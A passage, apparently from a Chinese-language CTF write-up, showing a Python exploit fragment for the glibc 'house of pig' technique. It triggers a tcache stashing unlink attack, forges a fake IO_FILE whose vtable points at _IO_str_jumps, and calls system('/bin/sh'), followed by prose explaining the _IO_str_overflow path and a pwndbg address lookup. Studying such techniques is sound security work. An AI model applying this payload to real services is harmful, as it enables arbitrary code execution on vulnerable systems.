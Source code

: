 ```python

#触发tcache stashing unlink
print("triger tcache_stashing_unlink")
# dbg()
#从smallbin取出一个chunk同时触发tcache_stashing_unlink_attack
Add(0x90, 'C'*0x28) # C4 triger tcache_stashing_unlink_attack, put the chunk of __free_hook-0x8处的chunk into tcache

IO_str_vtable = libc_base + 0x1ED560
system_addr = libc_base + libc.sym['system']
#因为返回的是mem位置，也就heap_base+0x147c0+0x10,所以只有2个p64(0)
fake_IO_FILE = 2*p64(0)
fake_IO_FILE += p64(1)                      #_IO_write_base = 1
fake_IO_FILE += p64(0x1000)                 # _IO_write_ptr = 0x1000 
fake_IO_FILE += p64(0)                      #_IO_write_end=0
#_IO_write_ptr -_IO_write_base>(size_t)(IO_buf_end-IO_buf_base)+flush_only 同时
fake_IO_FILE += p64(heap_base+0x148a0)                #IO_buf_base，heap_base+0x147c0+0xd0
fake_IO_FILE += p64(heap_base+0x148b8)                #IO_buf_end,  heap_base+0x147c0+0xd0+0x18
fake_IO_FILE = fake_IO_FILE.ljust(0xb0, b'\x00')
fake_IO_FILE += p64(0)                    #change _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xc8, b'\x00')
fake_IO_FILE += p64(IO_str_vtable)        #change vtable
payload = fake_IO_FILE + b'/bin/sh\x00' + 2*p64(system_addr)
print('IO attack')
sa('Gift:', payload)

#触发exit(-1)
Menu(5)
sla('user:\n', '')

irt()
```

源码
==

- 至于我们如何让程序执行\_IO\_str\_overflow这个函数，很简单。这个函数的地址是保存在\_IO\_str\_jumps这个结构体中的，在一般程序正常运行的情况下，\_IO\_list\_all保存有指向标准输入输出的FILE结构体，其中的vtable指向的应该是\_IO\_file\_jumps，而\_IO\_file\_jumps与\_IO\_str\_jumps是一个结构体类型的实例，二者的不同之处是，\_IO\_file\_jumps用于一个FILE结构体在出现异常时调用的函数列表，我们在假FILE结构体中将vtable写成\_IO\_str\_jumps，实际上就是将程序的执行流从\_IO\_file\_overflow改成\_IO\_str\_overflow。这也是house of pig利用的思想精髓所在

**注意要找的是\_\_io\_vtables而不是call \_IO\_str\_overflow,否则与FILE结构体的\_IO\_jump\_t的类型不匹配**

```text
pwndbg> p &_IO_str_jumps
$6 = (const _IO_jump_t *) 0x7ffff7dd2560 <_IO_str_jumps>
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-2eefc14144b5081565a63423066916a8e0be6f99.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-a6010f8e6102c2b440383e32c7ce0de321034b53.png)

\_IO\_str\_overflow
-------------------
